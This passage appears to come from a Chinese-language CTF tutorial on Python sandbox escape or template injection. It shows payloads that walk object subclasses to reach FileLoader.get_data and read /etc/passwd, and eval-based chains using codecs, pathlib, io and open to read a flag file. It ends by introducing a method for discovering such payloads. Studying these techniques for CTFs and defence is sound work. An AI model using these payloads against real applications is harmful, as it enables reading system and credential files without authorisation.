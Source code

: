 ### 文件读取

由于Python2中的 File 类在 Python3 中被去掉了，所以目前也就 **FileLoader ( _frozen_importlib_external.FileLoader)** 算真正意义上原生的文件读取

```python
[].__class__.__bases__[0].__subclasses__()[NUM]["get_data"](0,"/etc/passwd")
```

其他文件读取的方法无非还是在命令执行的基础上去导入文件操作的包 ( 为了方便，我们使用 X 代表基类 )

```python
- codecs模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('codecs').open('/app/flag').read()") 

- pathlib模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('pathlib').Path('/app/flag').read_text()") 

- io模块
x[NUM].__init__.__globals__['__builtins__'].eval("__import__('io').open('/app/flag').read()")

- open函数
x[NUM].__init__.__globals__['__builtins__'].eval("open('/app/flag').read()")
```

### 探索

你可以看到，现成的很多 payload 都是前人总结出来的，但凡是都有个开始，比如——如何从一个基类开始，去寻找一个可用的 payload 呢？

这里我们在拿到基类后，选取一个拥有初始化和全局的对象：

![image-20231130171847472](./assets/image-20231130171847472.png)

